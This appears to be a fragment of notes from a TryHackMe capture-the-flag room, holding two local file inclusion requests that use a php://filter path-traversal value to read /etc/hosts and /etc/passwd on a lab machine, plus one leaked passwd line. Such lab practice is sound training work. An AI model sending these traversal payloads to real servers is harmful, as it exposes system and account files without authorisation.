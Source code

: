 <code>
https://tryhackme.com/r/room/cheesectfv10



  
http://10.10.251.14/secret-script.php?file=php://filter/resource=../../../../etc/hosts

http://10.10.251.14/secret-script.php?file=php://filter/resource=../../../../etc/passwd

comte:x:1000:1000:comte:/home/comte:/bin/bash


</code>
